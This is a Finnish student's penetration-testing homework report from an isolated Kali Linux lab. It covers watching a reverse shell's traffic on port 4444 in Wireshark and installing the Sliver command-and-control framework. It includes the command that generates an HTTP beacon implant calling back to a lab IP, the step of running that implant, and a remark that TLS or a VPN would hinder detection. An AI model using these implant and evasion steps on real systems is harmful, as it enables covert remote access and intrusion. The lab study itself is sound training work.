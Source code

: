 ### Tunkeutumistestaus ICI005AS3A-3005

## Abdirahman Mire

# H6 Simpukoita

### Työympäristö:

Käyttöjärjestelmä: Windows 11 Pro 64-bit

CPU: Intel Core i7-12700KF - 4 cores in use

RAM: 6 GB DDR4

Disk: 80gb

Virtuaalikone: VMware, Kali Linux


## A) Snif Venom

Jatkoin siitä mihin jäin H5 tehtävän G kohdassa. 

Avasin Wireshark:n ja alotin yhteyden 

![kuva1](/H6/kuvat/kuva1.png)


aloitin antamalla ls komennon ja Wireshark antoi seuraavan takaisin: 

![kuva1](/H6/kuvat/kuva2.png)


tämä näyttää että lähde ip on 192.168.20.128 ja kohde ip on 192.168.20.129

lähde portti on 4444 ja kohde portti 59893

Tunnistmisen voi vaikeuttaa esim TLS yhteyttä käyttäen.Vpn myös voisi piilottaa todelliset lähde ja kohde ip:t

B) Sliver Http 

`sudo apt install sliver`

`sliver server`

![kuva1](/H6/kuvat/kuva3.png)

tein implantin `generate beacon --http 192.168.20.128 --os linux --arch amd64

![kuva1](/H6/kuvat/kuva4.png)

komenolla jobs:

![kuva1](/H6/kuvat/kuva5.png)

Ajoin implantin koneella: `./COGNITIVE_PHARMACOPOEIA`

tämä ilmestyi sessionseihin ja käytin use 879d0aa3

![kuva1](/H6/kuvat/kuva6.png)


tein tätä uudestaan ja uudestaan mutten saanut näkymään wiresharkissa.

referenssit: 

https://terokarvinen.com/tunkeutumistestaus/#h6-simpukoita


